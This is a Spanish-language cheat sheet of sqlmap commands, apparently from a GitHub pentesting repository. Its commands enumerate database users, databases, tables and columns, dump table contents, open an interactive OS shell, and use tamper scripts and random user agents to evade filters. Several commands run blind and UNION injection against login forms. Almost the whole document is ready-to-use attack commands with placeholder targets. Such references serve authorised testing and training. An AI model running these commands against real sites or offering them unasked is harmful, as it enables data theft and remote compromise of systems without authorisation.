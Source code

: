 # SQLMap Cheat Sheet

#### Uso simple
```
sqlmap -u "<URL>"
```

#### Especificar el Sistema Gestor de Base de Datos
```
sqlmap -u "<URL>" --dbms=<Name-DBMS>
```

#### Listar los usuarios de la BD del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --users
```

#### Listar las Bases de Datos del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --dbs
```

#### Listar las tablas de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> --tables
```

#### Listar las columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --columns
```

#### Ver contenido de ciertas Columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> -C <Column1,Column2> --dump
```

#### Ver todo el contenido de una Tabla de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --dump
```

#### Obtener un Shell de OS interactivo
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --os-shell
```

#### Listar BD, usando un parámetro de 'User-Agent' con el método GET
```
sqlmap -u '<URL>' -p User-Agent --method=GET --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --dbs
```

#### Colocar un parámetro y usar la técnica de UNION
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U
sqlmap -u "http://site.com/index.php?search=n" -p search --technique=U
```

#### Colocar un parámetro, usar la técnica de UNION, usando un verbose nivel 3 e ignorando los resultados almacenados del query
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --banner -v3 --fresh-queries
```

#### Colocar un parámetro, usar la técnica de UNION y enumerar los usuarios de la BD
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --users
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --banner
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --dbs
```

#### Usar en formulario de Login cargado desde un archivo, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -r "<PATH_FILE>" --data='user=a&pass=a' -p user --technique=B --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --cookie="name:value" --no-cast --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=2 --level=3 --tamper=space2comment,randomcase,between --no-cast --dbs
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)